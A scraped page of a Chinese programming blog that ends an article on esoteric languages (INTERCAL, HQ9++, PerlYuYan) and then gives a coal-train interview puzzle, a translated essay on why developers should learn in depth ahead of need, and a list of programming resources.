DO ,1 SUB #9 <- #248
DO ,1 SUB #10 <- #168
DO ,1 SUB #11 <- #24
DO ,1 SUB #12 <- #16
DO ,1 SUB #13 <- #162
PLEASE READ OUT ,1
PLEASE GIVE UP
```

#### HQ9++

[HQ9++语言](http://www.dangermouse.net/esoteric/hq9plusplus.html)同样是David Morgan-Mar 发明的，其带有四个指令的joke语言。

- **H**: 输出 [“hello,world”](http://www.esolangs.org/wiki/Hello%2C_world!)
- **Q**: 输出程序员的源代码
- **9**: 打印 [“99 Bottles of Beer”](http://www.esolangs.org/wiki/99_bottles_of_beer) 的歌词
- **+**: 累加器

#### **PerlYuYan**

[PerlYuYa](https://zh.wikipedia.org/wiki/PerlYuYan)n语言是一个能令人使用中文文言文开发程式 Perl 程式的 Perl 模块，由[唐凤](https://zh.wikipedia.org/wiki/唐鳳)于2002年一月发表。它是[中文编程语言](https://zh.wikipedia.org/wiki/中文編程語言)的尝试。作者利用中文的特质，将许多指令改成以一个中国汉字来表示，因而造成了文言语法的感觉。

看看下面的这段代码，相当的文言文啊。有兴趣可以[去CPAN上下载](http://search.cpan.org/~autrijus/Lingua-Sinica-PerlYuYan-0.03/)回来玩玩。

```
#!/usr/local/bin/perl

use Lingua::Sinica::PerlYuYan;

用警兮用嚴。

印道
一至一
哉兮

印編曰雜申雜申矣
  又纖曰龍鼠矣
    又曰一矣

亂曰
國無人莫我知兮    又何懷乎故都
既莫足與為美政兮  吾將從彭咸之所居
```

还有下面这个五言。

```
# The Sieve of Eratosthenes - 埃拉托斯芬篩法
use Lingua::Sinica::PerlYuYan;

  用籌兮用嚴。井涸兮無礙
。印曰最高矣  又道數然哉。
。截起吾純風  賦小入大合。
。習予吾陣地  並二至純風。
。當起段賦取  加陣地合始。
。陣地賦篩始  繫繫此雜段。
。終陣地兮印  正道次標哉。
。輸空接段點  列終註泰來。
```

 

#### 参考：

- [Esoteric_programming_languages](https://en.wikipedia.org/wiki/Category:Esoteric_programming_languages)
- [Top 13 Most Absurd Programming Languages](http://www.topdesignmag.com/top-13-most-absurd-programming-languages/)
- [Befunge语言和文言文编程](http://wei.si/blog/2011/04/befunge-and-perlyuyan/)
- [疯狂的编程语言——ENGLISH，Chef，Shakespeare](http://hi.baidu.com/namekin/blog/item/9f36f21fc6be296df724e452.html)
- [DM’s Esoteric Programming Languages](http://www.dangermouse.net/esoteric/)
- [十大另类程序语言（上）](http://www.matrix67.com/blog/archives/253)
- [十大另类程序语言（下）](http://www.matrix67.com/blog/archives/255)

看过这些，我我还有什么好说的呢，什么C/C++/Java，神马都是浮云了……

(全文完)

# 面试题：火车运煤问题

#####  [2011年04月11日 ](https://coolshell.cn/articles/4429.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [335 条评论](https://coolshell.cn/articles/4429.html#comments) 157,899 人阅读

这个可能是一个比较经典的智力题了，和以前的那个《[赛马问题](https://coolshell.cn/articles/1202.html)》很相似，其题目如下：

**你是山西的一个煤老板，你在矿区开采了有3000吨煤需要运送到市场上去卖，从你的矿区到市场有1000公里，你手里有一列烧煤的火车，这个火车最多只能装1000吨煤，且其能耗比较大——每一公里需要耗一吨煤。请问，作为一个懂编程的煤老板的你，你会怎么运送才能运最多的煤到集市？**

这道题一开始看上去好像是无解的，因为你的火车每一公里就要消耗一吨煤，而到目的地有1000公里，而火车最多只能装1000吨媒。如果你的火车可以全部装下，到目的地也会被全部烧光，一丁点也不剩。所以，很多人的第一反应都是觉得这个不太可能。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2260297092&amp;adf=3213092249&amp;pi=t.aa~a.425447425~i.5~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225240&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4429.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsgY6JOkkifXiwoZWdJUWSY6HJJIEcrHpGeX5qFaKJAHpwCJ2Iwvl1SB4QSPomvF_4teo-8&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225472770&amp;bpp=2&amp;bdt=5038&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280&amp;nras=5&amp;correlator=1933331756227&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1427286923&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1127&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C44788441%2C44789779%2C44791974&amp;oid=2&amp;psts=ABHeCvgcQckL5dy9Da0q28OaJ2GOJCUllO5etSJXdRlY3vT6OeTBCV0lSAh-JWPvotSarQwYeid9X_EqKGdRSRELideQlXs&amp;pvsid=2204085794984352&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C0%2C0%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=4&amp;uci=a!4&amp;btvi=2&amp;fsb=1&amp;xpc=iqQOvoRWdk&amp;p=https%3A//coolshell.cn&amp;dtd=5526" data-google-container-id="a!4" data-google-query-id="CN703Oq0-f4CFYb6ZAodcboLvw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

如果你一开始就觉得不太可能的话，这是很正常的。不过我不知道你还会不会继续思考下去，如果你不想思考下去了，那么我很为你担忧，因为你可能并不是一个不善于思考的人，而是一个畏难的人，还有可能是一个容易放弃的人。这对于你做好 一个需要大量思考的工作的程序员来说可能并不适合。

我一开始也觉得不可能，后来想了一想，想到一个解法可以最多运送500吨煤到市场，方法如下：（希望你先自己想一想再查看这个答案）


【[**查看答案**](javascript:showAnswer();)】

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2260297092&amp;adf=3213092249&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225240&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4429.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsgY6JOkkifXiwoZWdJUWSY6HJJIEcrHpGeX5qFaKJAHpwCJ2Iwvl1SB4QSPomvF_4teo-8&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225472763&amp;bpp=1&amp;bdt=5030&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=1933331756227&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1427286923&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1737&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C44788441%2C44789779%2C44791974&amp;oid=2&amp;psts=ABHeCvgcQckL5dy9Da0q28OaJ2GOJCUllO5etSJXdRlY3vT6OeTBCV0lSAh-JWPvotSarQwYeid9X_EqKGdRSRELideQlXs&amp;pvsid=2204085794984352&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C0%2C0%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=6GOLxajVSU&amp;p=https%3A//coolshell.cn&amp;dtd=5488" data-google-container-id="a!3" data-google-query-id="COXf2-q0-f4CFZKr7Aod6A0BHg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

<iframe id="aswift_4" name="aswift_4" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2260297092&amp;adf=2550114673&amp;pi=t.aa~a.425447425~i.11~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225240&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4429.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xsgY6JOkkifXiwoZWdJUWSY6HJJIEcrHpGeX5qFaKJAHpwCJ2Iwvl1SB4QSPomvF_4teo-8&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225472776&amp;bpp=1&amp;bdt=5043&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C704x280%2C704x280&amp;nras=6&amp;correlator=1933331756227&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1427286923&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2017&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C44788441%2C44789779%2C44791974&amp;oid=2&amp;psts=ABHeCvgcQckL5dy9Da0q28OaJ2GOJCUllO5etSJXdRlY3vT6OeTBCV0lSAh-JWPvotSarQwYeid9X_EqKGdRSRELideQlXs&amp;pvsid=2204085794984352&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C0%2C0%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=5&amp;uci=a!5&amp;btvi=3&amp;fsb=1&amp;xpc=G7O2ZG15xL&amp;p=https%3A//coolshell.cn&amp;dtd=5526" data-google-container-id="a!5" data-google-query-id="CKz43Oq0-f4CFYPdZAodKMkKIw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

好像这样很不错的了，不过还有更好的方法能运更多的媒过去。你知道这个方法吗？可以提示的是，就是以上述这个方法的思路。我先暂时不把答案放上来，你可以自己想想。过两天我把答案放上来。

 

**更新（2011年4月17日）**：大家都很聪明，533是应该是最优解，大家用了很多种方法阐述了这一过程，我最初的想法和朋友[xPacificCoolShell](https://coolshell.cn/articles/4429.html#comment-44698)的一致！很高兴看到有更为科学的解法，受教了。另外，还有一些朋友提出火车不能随时随地调头的实际情况，非常不错，所以，以后这题不能用火车运煤了，可能是用马运草更好一点了。;)

# 程序员的谎谬之言还是至理名言？

#####  [2011年04月07日 ](https://coolshell.cn/articles/4235.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [110 条评论](https://coolshell.cn/articles/4235.html#comments) 130,286 人阅读

有朋友（网友never）在酷壳Coolshell.cn的[留言版上问我](https://coolshell.cn/guestbook#comment-40758)，为什么关注了这很多的东西，我想我可以用下文来回答这位网友，因为我和作者的观点几乎一致。这篇文章由 ALAN SKORKIN写的 “[The Greatest Developer Fallacy Or The Wisest Words You’ll Ever Hear?](http://www.skorks.com/2011/02/the-greatest-developer-fallacy-or-the-wisest-words-youll-ever-hear/)” ，我把其全文翻译如下，我很喜欢这篇文章，希望你也喜欢。（翻译的也许不好，欢迎指正）

—————————————————正文分隔线——————————————————


“***I will learn it when I need it –\* 我会在我需要的时候再学**“！我听到这句已经很多年了。这对于一个高速变化的软件行业环境来说，这似乎是一个非常实用的态度。 在某些方面这的确很实用主义，不过在其它的方面，我为这句话感到很不爽。这句话变成了整个软件行业的福音，但却没有让我们的软件行业变得更好。其问题在于，**这句话伪装在于其听上去像是一个智慧的有经验的开发者说的，但是人们只是以此为借口而随波逐流**。实在是有太多的东西需要我们去了解，我们也的确需要在工作当中来学习这些东西。但是， “在工作中学习”和“根据遇到的问题捡知识”这两者有着巨大的不同。

- 另外，目前整个软件行业越来越需要一堆多面手，也许现在已经是这样了，只是我还没有注意到。当然，我也不喜欢这种情。现在，好像没有人愿意花更多的时间来把某一个东西学好学深学扎实，比如 [计算机科学的基础知识](http://www.skorks.com/2010/04/on-the-value-of-fundamentals-in-software-development/)，或是最新的你正在使用的技术，甚至你在最近几年内每天都在使用其编码的程序语言（参考：[Java is passed by value](http://blog.tmorris.net/java-is-pass-by-value/)）（**译注：**我在[如何学好C++一文](https://coolshell.cn/articles/4119.html)的回复中已经看到一些这样的人）。何苦呢？你会在你的学习路途中看到这些东西被更新，被废弃，并可能变得小众化。我和很多不同的人讨论过很多次，但是好像没有人意识到这是一个问题。 “**哥们，做个实用主义的人吧**”。

- 与此同时，我们所有的人都在相互地克隆和模仿（**译注：**参看[中国的C2C](https://coolshell.cn/articles/3820.html)）。你需要一个Java程序员，我是一个Java程序员，你也是一个Java程序员，我的邻居也是一个Java程序员。我们之间有什么差别？其实，基本没有差别。好吧，我有一些jQuery的经历，太好，所以，你知道怎么来做一个折叠式的菜单？当然，我可以Google一下，然后剽窃别人最好的代码给你 :)（**译注：**参看“[十条不错的编程观点](https://coolshell.cn/articles/2424.html)”中的”Googling it” is okay）。


- 与此同时，你需要招聘到真正的专业级的人物（比如，你需要写一个很牛的解析程序来以图形化展示一下后台数据），那么你可能需要准备足够的啤酒和三明治，因为你可很有一段时间找不到这样的人。

好了，其实，是有一些方法来区分，比如，我有更好的沟通能力，这就是为什么我可以做得更好。这是相当重要的，但是，**如果我们用软能力而不是用技术能力来区分程序员的好坏 –  是不是有那么点反常和变态**。我们所有人都可以沟通得很好，但是我们的代码乱成一团 :)。该死的，我本不应该说这事，我也有一点全才的样子。当然，我觉得我自己是一个 [T型人才](http://darrennegraeff.com/the-importance-of-t-shaped-individuals/)（**译注**：即有深度又有广度），但是如果我们都非常诚实的话，我们会发现更多的人的能力是“横线型”或是“下划线型”的（**译注**：广度型），其中只有很少数的人才是有能力的。而我们的“T型人才”在这些人中就像一个巨大的钟乳石。**你看上去像一个专家，但也许你从没有做过专家**，这就是专才在满是全才的世界中的优势。

目录


[投资你的未来](https://coolshell.cn/articles/4235.html#投资你的未来)[你不知道你不知道的](https://coolshell.cn/articles/4235.html#你不知道你不知道的)[你学得足够快吗？](https://coolshell.cn/articles/4235.html#你学得足够快吗？)[为什么我应该关心](https://coolshell.cn/articles/4235.html#为什么我应该关心)

#### 投资你的未来

我不想以说教的方式来告诉你人们应该怎么样来投资自己未来的职业生涯，因为每个人都知道我们应该怎么做。很多人也许认为他们正在投资，他们努力奋斗，写很多的代码，并也做一些阅读，当然，这样坚持下去，也许[十年也可以成为一个专家](http://norvig.com/21-days.html)，而成为一个咨深专家可能需要20年（我会不断地说这些观点，总有一天我会把这个事说明白 :) ）。但是，如果真是这样的吧，每一个老家伙都会成为各个方面的专家，当然，事实是不会这样的。也许是因为人们不知道如何发展他们的专长（这是事实），但我私下里却怀疑，**大家缺少的是热情而不是知识**。我所说的这些东西难道不都是这样的原因吗？

我完全跑题了。“在专业上投资未来”只是这些流行语中的一个，而重点是那句话 – “***I will learn it when I need it –\* 我会在我需要的时候再学**”。对我老爸来说这样做挺好，迄今为止对我也有效。但是让我们换一个角度看看，比如金融方面，如果我们说：“**我会在我需要钱的时候再去进行投资**”。在这句话上面那个实用主义的光环就不那么漂亮了。

#### 你不知道你不知道的

我们都有过这样的时候，当我们痛苦地在解决一个问题的时候，有人突然告诉你一个算法或是一个技术，其把这个问题变得又快又简单。是的，有人告诉你一个容易的方法是一件很幸运的事，否则你可能需要花上数天或数周才能找到解决方法，并且事情可能会变得一团糟。你不会因此而被批评，因为你不知道你所不知道的东西。对此，“***I will learn it when I need it –\* 我会在我需要的时候再学**”在这个时候就走不通了。因为，**你不可能学习那些你以为不存在的东西**。Google做了很多的工作来减轻和缓解这样的问题，但并不完美。在一个陌生的环境下面对着一堆陌生的问题，会让你非常非常地痛苦，除非你知道你所面对的是什么（例如：如果你对搜索和约束传播（*constraint propagation*）有点了解的话，那你就可能 [容易地解决数独问题](http://norvig.com/sudoku.html)，否则的话， [这的确是](http://xprogramming.com/xpmag/OkSudoku) [非常](http://xprogramming.com/xpmag/SudokuMusings) [难的](http://xprogramming.com/xpmag/Sudoku4)）。你无法学习一种不知道或是你不知道用在哪里的算法。你也不可能去用一个你以为不存在的技术去解决一个问题。同样，你身边也不可以一直都有一个高人随时在给你指引正确的方向。我敢打赌，**这个世界上有几十亿行代码可以被 几百万行更快，更清楚，更简单的代码所取代，因为无论是谁来写，他都不可能知道他所不知道的东西**。

我想在这里成为这个观点的反方，如果我们知道我们有哪些东西我们不知道，那么我们就知道我们需要去关注哪些东西。粗浅地尽可能的大范围的知道这些东西，那么，我们就可以在遇到问题的时候明白我们应该去更深地学什么样的知识。但是，这样来做在实际上并不有效，因为，**这些浮云般的知识不会让你记下来**，我们的大脑不是这样工作的。如果我们不去强化或是深度挖掘去消化这些概念， 我们的大脑会很快地 [把这些信息标为不重要并换页出去](http://www.skorks.com/2009/09/become-a-better-developer-by-indexing-your-brain/)，这么做无非就是在浪费时间（你回头想一想你那些“填鸭式”的死记硬背的知识，你今天还记得吗？）然而，对于那些你集中精力深度研究过的东西——并伴随着你的兴趣的东西——你会收获到扎实的知识（那是你大脑里实际存下的不会忘的东西）。我的爷爷是一个核物理学家，数十年的在工作中获得这个领域中更深的知识让他今天成为了一个专家，同时也让他成为了一个优秀的数学家，不错的化学家，非常好的地理学家，还是一个合格的生物学家，等等。只需要一些 [观察性的证据](https://en.wikipedia.org/wiki/Empirical) 你就知道**广度的知识是深度研究的副产品**。

#### 你学得足够快吗？


有些东西你需要花很长的时间才能学会。我对自己有信心不需跳跃性的就能把一个我从没有见过的ORM框架学会，因为我以前用过相似的东西，它们在概念上是相同的。但是，如果你需要做一个把演讲转成文本的东西呢，这并不简单，因为你没有足够多的背景知识。你可以希望通过Google给你提供一些东西让你Copy/Paste，但这是一个很不好的做法，只有大学里的做研究的研究员干这种烂事。如果是要创建一个网站呢，我们都知道怎么去创建一个网站，但是有多少人会知道如何架构一个每天有一千万用户访问的网站？那么我们需要去学的就是怎么做扩容扩展，**我相信你的用户需要等你一到两个月才能把速度提上去** :)。是的，我太笨了，所有我需要做的就是去招一个专家，然后……嗯……哦等一下，我们的啤酒和三明治都不够了。

#### 为什么我应该关心

**和高手在一起工作真是超爽无比**。你也许以前经历过，他们每说的一件事总是新鲜的，总是有意思的，你能从他们每一行的代码中学到很多小技巧，你几乎可以感觉到你的大脑在不断膨胀:)。你想从高手学习，所以，如果你身边没有高手，那真是太糟糕了。因为每一个人只会去学那些“需要”被学的东西，所以没有人能教给你任何有意思的东西。然而，这些高手也总是想和高手一起工作， 所以，**你需要做的事就是确定能让高手想和你一起工作？**。按需所学也许是一个不错的技能，但其不应该成为程序员的价值观。是的，这是一个巨大的行业你不可能学习所有的东西，所以，你需要有所选择地把其学精，只要你有足够的好奇心去跟从你的兴趣，你会发现最终你会真正掌握很多很多其它的东西。如果你能把你的工作做好，那么其它的超级牛人都会想要和你一起工作，因为他们可以从你这学到东西，而你又可以从他们那里学到东西。这样一来，所有的人都会是成功者。

Image by [SamueleGhilardi](http://www.flickr.com/photos/samueleghilardi/2971657900/) and [SpecialKRB](http://www.flickr.com/photos/specialkrb/3250756763/)

—————————————————正文结束分割线——————————————————

我在这里想说几个我的观点：

1. 我特别同意作者的，如果你把一个技术搞精搞深，你的知识面自然会很广的。
2. 面对于各种比较深的东西（比如C++的奇技淫巧），作为一个实用主义者可能很不屑，但是你也会为此而失去开阔眼界的机会。
3. 为明天做一些技术储备，因为你不知道你所缺的东西。多多阅读，多多交流，最好能把自己的心得写下来强化自己的认识和记忆。
4. 不要只寄望于在工作中学习，工作没有覆盖的地方你就不学了。真正的高手在工作之余都会花很多时间去自己研究点东西的。
5. 永远和高手一起工作。如果你面试的公司的面试太简单了，那就不要去，因为简单的面试通常意味着平庸。去那样的公司工作只会让你的学习速度变慢，甚至倒退。
6. 很多东西在概念上是相通的，在哲学层次上是相通的，这是你需要去追求的学习知识的境界。
7. 最后echo一下作者的话——“很多时候，你缺少的不是知识而是热情”！

谢谢大家又花了一点看我的唠叨。呵呵。

# 一些有意思的文章和资源

#####  [2011年04月06日 ](https://coolshell.cn/articles/4220.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [31 条评论](https://coolshell.cn/articles/4220.html#comments) 36,546 人阅读

又到了向大家介绍一些最近我在网上发现的有价值的东西的时候了。（下面的链接中很多都被墙）

- 以前向大家介绍过《[一些重要的算法](https://coolshell.cn/articles/2583.html)》和《[算法和数据结构词典](https://coolshell.cn/articles/1499.html)》，不过，你知道有些什么样比较奇怪的数据结构吗？wikipedia上的这个词条可以让你看看[各种不同的数据结构](https://en.wikipedia.org/wiki/List_of_data_structures)。比如：[Skip lists](https://en.wikipedia.org/wiki/Skip_list)， [Bloom filters](https://en.wikipedia.org/wiki/Bloom_filter)，或是什么[Dancing links](https://en.wikipedia.org/wiki/Dancing_Links)。你也许会像一个以“[如何学好C++](https://coolshell.cn/articles/4119.html)”中的朋友们所说的，不削于这种所谓的“奇技淫巧”，甚至觉得这太根本不实用。其实，这些东西还是有用的，至少对你开阔思路，活动编程思维能力很有意义。

- 本站的关于[排序的文章](https://coolshell.cn/tag/排序)有很多，对于排序算法来说，其受到要排序的个数和数据的杂乱程度的影响，我们知道比较稳定的排序算法是快速排序和归并排序，归并排序对于大量的数据排序效果是非常好的，尤其是我们可以进行并行的排序。这里有一个并行归并排序的算法的源代码，你可以参考一下 – “[Parallel Merge Sort](https://dzmitryhuba.blogspot.com/2010/10/parallel-merge-sort.html)”。

- 说到“奇技淫巧”和算法，这里有一个文章向你展示了C语言中使用位操作可能完成的各种算法，很有意思。请参看 – “[The Aggregate Magic Algorithms](http://aggregate.ee.engr.uky.edu/MAGIC/)”

- 这里有篇文章教你如何取得一个[在线的哈佛大学的硕士学位](http://www.productivity501.com/harvard-masters-degree/6463/)，文章中说了一些相关的事宜，包括一些收费情况，并且展示了一张文凭。这里有一个网页说明了[哈佛软件工程学位](http://blog.markwshead.com/911/harvard-online-masters-degree-in-software-engineering/)（Software Engineering）的所需要学习的科目，比如：Java和分布式计算，分布式/企业级计算，设计模式和Java，通讯协议，高级数据网络，Web开发，计算理论，Perl实践，Unix系统编程……我不知道我们的国家各个大学的硕士在学什么，因为我没有读过硕士，但好像现在的计算机研究生只是导师用来挣钱的免费资源，而且，实在不知道研究生在校研究什么。不管怎么样，从这看来，我们的大学好像并没有教给学生计算机的技术。比如在“[如何学好C语言](https://coolshell.cn/articles/4102.html)”和“[如何学好C++语言](https://coolshell.cn/articles/4119.html)”中我提到的那些书，那些才是大学里应该学的。我国的教育还真不是一般的落后，不过你不妨试试哈佛的在线学位。


- 关于网上的电子书，以前本站介绍过一 个[免费电子书列表](https://coolshell.cn/articles/2775.html)，这里再推荐一个网站，上面有很多很多很不错的计算机科学方面的电子书，当然，都是英文的。http://www.sciencebooksonline.info/computer-science.html。我知道你对英文发憷，但是，朋友，你一定要学好英文啊，这不仅仅只是为了学好计算机啊。

- 还记得本站的“[64位平台开发的注意事项](https://coolshell.cn/articles/3512.html)”吗？Intel Software Network上有这样一篇文章其收集了一些在64位平台上经常出现的错的，图文并茂的，相当的不错，强力推荐给大家 – “[A Collection of Examples of 64-bit Errors in Real Programs](http://software.intel.com/en-us/articles/collection-of-examples-of-64-bit-errors-in-real-programs/)”

- 你爱好汇编语言吗？如果你是汇编的痴迷者，那么mac.com上的[这个列表](http://homepage.mac.com/randyhyde/webster.cs.ucr.edu/index.html)对你很有意义了。里面的相关文章非常不错哦。而这里有一个[Step by Step的x86汇编编程教程](http://www.duntemann.com/assembly.html)。

- 还记得那篇“UI和UX的差别”吗？呵呵。这里有一个网站，给了你30+条UX用户体验的建议，我觉得非常不错，转给大家http://uxmyths.com/

- 想在Visual Studio 2010下编写Python吗？那么，向你介绍这个微软官方的插件[Python  Tools for Visual Studio](http://pytools.codeplex.com/)。你还可以在VS中调试你的Python代码。挺不错的。

- 在VS里开发Python，那么就可以使用Eclipse编写Android程序，这里有一篇教程教你 – [Get Started Developing For Android With Eclipse, Reloaded](http://www.smashingmagazine.com/2011/03/28/get-started-developing-for-android-with-eclipse-reloaded/)

- 说到了Android，必然要提一提iOS。想学iOS编程吗？这里有一篇教程很不错，如果你是一个什么也不懂的初学者，你不妨看看这篇文章“[Build iOS App from Scrach](http://designthencode.com/scratch/)”

- 查JDK是不是有点不好查？这里有一个网站可以方便地查找JDK和Android的API – [http://www.kiwidoc.com](http://www.kiwidoc.com/)，我觉得很不错哦。

